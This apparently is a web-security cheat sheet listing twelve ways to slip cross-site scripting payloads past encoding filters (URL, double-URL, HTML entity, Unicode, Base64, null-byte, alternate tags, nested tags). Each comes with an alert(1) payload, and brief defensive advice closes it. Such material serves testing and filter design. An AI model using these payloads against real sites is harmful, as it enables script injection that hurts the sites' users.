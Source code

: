 Bypassing character encoding in input fields is a common technique used by attackers to circumvent filters or sanitization mechanisms that encode or block special characters. Here are some techniques to bypass encoding in input fields:

### **1. Use URL Encoding**
- Encode characters into their URL-encoded form (`%xx`).- Example: `<script>` becomes `%3Cscript%3E`.


- Useful when applications decode encoded inputs before processing.- Payload: `%3Cscript%3Ealert(1)%3C%2Fscript%3E`.




### **2. Double URL Encoding**
- Encode the payload twice to bypass weak decoding mechanisms.- Example: `%3C` becomes `%253C`.


- Payload: `%253Cscript%253Ealert(1)%253C%252Fscript%253E`.


### **3. HTML Entity Encoding**
- Use HTML entities to represent characters.- Example: `<script>` becomes `&lt;script&gt;`.


- Payload: `&lt;script&gt;alert(1)&lt;/script&gt;`.


### **4. Unicode/UTF-8 Encoding**
- Use Unicode or UTF-8 representations of characters to bypass filters.- Example: `<script>` can be encoded as `\u003Cscript\u003E`.


- Useful for bypassing poorly implemented filters.- Payload: `\u003Cscript\u003Ealert(1)\u003C/script\u003E`.




### **5. Hexadecimal Encoding**
- Encode characters using hexadecimal notation.- Example: `<script>` becomes `&#x3C;script&#x3E;`.


- Payload: `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`.


### **6. Base64 Encoding**
- Encode the payload in Base64 and leverage decoding logic in the application.- Example: Base64 of `<script>alert(1)</script>` is `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`.


- Applications that decode Base64 can be exploited with this technique.


### **7. JavaScript Context Exploitation**
- Break out of encoded JavaScript contexts.- Example: Escape single or double quotes:- Input: `\";alert(1);//`
- Input: `'";alert(1);//`.






### **8. Null Byte Injection**
- Inject null bytes (`%00`) to terminate sanitization or encoding processes.- Example: `<script%00>alert(1)</script>`.




### **9. Mixed Encodings**
- Combine multiple encoding methods to evade filters.- Example: Use a mix of URL encoding, Unicode, and HTML entities:- Input: `%26%23x3C;script%26%23x3E;`.






### **10. Using Alternate Syntax or Tags**
- Use variations of script injection that may not be encoded:- `<img src=x onerror=alert(1)>`.
- `<svg/onload=alert(1)>`.




### **11. Breaking Input Validation Logic**
- Exploit applications that only encode specific characters:- Input: `<scr<script>ipt>alert(1)</scr</script>ipt>`.


- Break out of the input field context:- Example: `<"onclick=alert(1)//>`.




### **12. Custom Encodings**
- Use custom or proprietary encoding mechanisms specific to the application.


### **Defensive Recommendations**
- To protect against encoding bypasses, implement proper defenses:- Input validation: Allow only whitelisted characters.
- Output encoding: Encode data according to its context (e.g., HTML, JavaScript, URL).
- Use security libraries to sanitize inputs.



